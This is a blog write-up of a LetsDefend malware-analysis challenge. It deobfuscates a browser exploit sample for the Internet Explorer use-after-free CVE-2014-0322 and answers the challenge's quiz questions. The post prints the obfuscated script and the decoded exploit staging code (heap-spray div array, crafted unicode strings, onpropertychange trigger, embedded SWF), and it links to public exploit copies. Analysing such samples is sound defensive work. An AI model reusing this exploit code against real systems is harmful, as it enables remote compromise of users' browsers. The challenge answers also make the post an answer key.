```yaml
---
title: "LetsDefend_BrowserExploit"
description: "Going through LetsDefend's medium difficulty Browser Exploit malware challenge."
date: 2025-03-07T09:30:02-06:00
tags: ["Malware","JavaScript","Deobfuscation","CyberChef","CVE"]
categories: "LetsDefend"
image: ldef.png
math: 
license: 
---
```

## Description
>It's a busy Monday morning at your organization, and the IT security team receives an urgent alert: one of your web servers has been infected with malware. The infected server hosts critical applications and handles sensitive customer data. Upon investigation, the IT team determines that the malware is unknown and potentially sophisticated.
>
>In response, they isolate the infected server and escalate the incident to the malware analysis team for further investigation.

## Investigation

The html file appears to have very little content aside from an obfuscated script:
```html
    <script>
        var hDAVYVhp = function (TRdPNtO) {
            return TRdPNtO['toString'](36)
        };
        var mqQUHDzc = '%66%75%6e%63%74%69%6f%6e%20%65%59%6c%52%66%58%28%64%77%6f%72%64%29%7b%76%61%72%20%64%3d%4e%75%6d%62%65%72<...SNIP...>
        this[hDAVYVhp(693741)](this[hDAVYVhp(2401885046066)](mqQUHDzc));
    </script>
```

Considering this is browser-based html this might be URL encoded. We can decode with cyberchef:

![](images/urldecode.png)

The url decoded output:

```js
function eYlRfX(dword) {
	var d = Number(dword)['toString'](16);
	while (d['length'] < 8) {
		d = '0' + d;
	}
	return unescape('%u' + d['substr'](4, 8) + '%u' + d['substr'](0, 4));
}
var g_arr = [];
var arrLen = 592;
function fun() {
	var a = 0;
	for (a = 0; a < arrLen; ++a) {
		g_arr[a] = document['createElement']('div');
	}
	;
	var b = eYlRfX(3735929054);
	var c = 437985280;
	while (b['length'] < 864) {
		if (b['length'] == 148 / 2) {
			b += eYlRfX(c + 16 - 12);
		} else if (b['length'] == 152 / 2) {
			b += eYlRfX(c + 20 - 8);
		} else if (b['length'] == 172 / 2) {
			b += eYlRfX(c - 16);
		} else if (b['length'] == 348 / 2) {
			b += eYlRfX(1111638594);
		} else {
			b += eYlRfX(437985280 - 16);
		}
	}
	;
	var d = b['substring'](0, (832 - 2) / 2);
	try {
		this['outerHTML'] = this['outerHTML'];
	} catch (e) {
	}
	CollectGarbage();
	for (a = 0; a < arrLen; ++a) {
		g_arr[a]['title'] = d['substring'](0, d['length']);
	}
}
function puIHa3() {
	var a = document['getElementsByTagName']('script');
	var b = a[0];
	b['onpropertychange'] = fun;
	var c = document['createElement']('SELECT');
	c = b['appendChild'](c);
}
document['write']("<embed src='e56d2.swf' width='100px' height='100px'></embed>");
```

Overall the script is quite obfuscated, but we can make general speculations. Function `hDAVYVhp` is taking number inputs and using Base36 transformation. Function `eYlRfX` is appearing to convert number values to hex representation (Base16) while also switching characters 1-4 with 5-8. Function `fun` appears to be decryption for a possible payload, and function `puIHa3` looks to be staging the `fun` script inside HTML script for execution. Lastly, document write at the end appears to be placing an embedding link to a file 'e56d2.swf' which has yet to be found.

## Answers
### 1. What function do you identify as responsible for converting input to a base 36 string?

This is found at the start of the script, function `hDAVYVhp`. We can use base36 to partially decode this:
```js
//  this[hDAVYVhp(693741)](this[hDAVYVhp(2401885046066)](mqQUHDzc));
	eval(unescape(mqQUHDzc));
</script>
```

### 2. What is the name of the function that converts numbers to hexadecimal strings with specific formatting?

This function was also identified previously once the URL decoding has been achieved: `eYlRfX`. Considering static values are being used, we can do partial decoding on `fun` as well.
```js
	var b = '%uc0de%udead';
	var c = 437985280;
	while (b['length'] < 864) {
		if (b['length'] == 148 / 2) {
			b += '%u2004%u1a1b';
		} else if (b['length'] == 152 / 2) {
			b += '%u200c%u1a1b';
		} else if (b['length'] == 172 / 2) {
			b += '%u1ff0%u1a1b';
		} else if (b['length'] == 348 / 2) {
			b += '%u4242%u4242';
		} else {
			b += '%u1ff0%u1a1b';
		}
	}
```

### 3. What is the name of the array that stores developer (div) elements?

There's only 1 array mentioned in the script so this is a pretty simple one to answer: `g_arr`. Not much attention was drawn here but at the end of `fun` is a loop populating the array:
```js
for (a = 0; a < arrLen; ++a) {
	g_arr[a]['title'] = d['substring'](0, d['length']);
}
```

### 4. What is the length of the array storing developer elements in decimal?

The array value is defined in plaintext: `592`
```js
var g_arr = [];
var arrLen = 592;
function fun() {
```

### 5. If JavaScript is disabled in the browser, which endpoint is accessed instead?

In the original file contents, there is a `<noscript>` section following `<script>`, which is refreshing the page to another location:
```js
        this[hDAVYVhp(693741)](this[hDAVYVhp(2401885046066)](mqQUHDzc));
    </script>
    <noscript>
        <meta http-equiv='refresh' content='0;url=../nojs.php' />
    </noscript>
```

This endpoint is the php target, `nojs.php`.

### 6. What is the name of the function responsible for triggering the exploit?

Within the function `puIHa3` we see the important triggering code:

```js
b['onpropertychange'] = fun;
```

The malicious function `fun` is executed on document property change, but then following this function is a document write:
```js
document['write']("<embed src='e56d2.swf' width='100px' height='100px'></embed>");
```

With this `fun` is kicked off, and `puIHa3` is the function responsible for this.
### 7. What is the name of the flash file embedded within the code?

As mentioned just previously, `e56d2.swf` is the embedded flash file.

### 8. What is the CVE Number assigned to this exploit?

We can search for distinctive features such as the flash file name `e56d2.swf`.  I found an interesting [blog page](https://malware.dontneedcoffee.com/2014/03/cve-2014-0322-integrating-exploit-kits.html) that discusses exploit kits using `CVE-2014-0322`. As an added bonus, it looks like this page is where LetsDefend found it's inspiration for the provided file. [Obfuscated FlashPack](http://pastebin.com/BxhPytN3), and [Decoded FlashPack](http://pastebin.com/SKSQBwB7) are available on this page.

## Impact

The CVE describes [a "use-after-free vulnerability" in Microsoft Internet Explorer 9 and 10 that allows RCE involving crafted JavaScript code, CMarkup, and the onpropertychange attribute of a script element](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0322). Despite deobfuscating as much as we are able it is still hard to pinpoint exactly what this malicious payload is achieving. Comparing other resources on this exploit such as the [metasploit entry in exploit-db](https://www.exploit-db.com/exploits/32904) and the [Websense Security Labs Blog](http://web.archive.org/web/20160101212516/http://community.websense.com/blogs/securitylabs/archive/2014/02/13/msie-0-day-exploit-cve-2014-0322-possibly-targeting-french-aerospace-organization.aspx) who were responsible for finding this in the wild, it appears that the RCE payload was not present for our sample. For this challenge we apparently are given a staging payload that prepares to abuse CVE-2014-0322 but has no RCE command present to execute. 
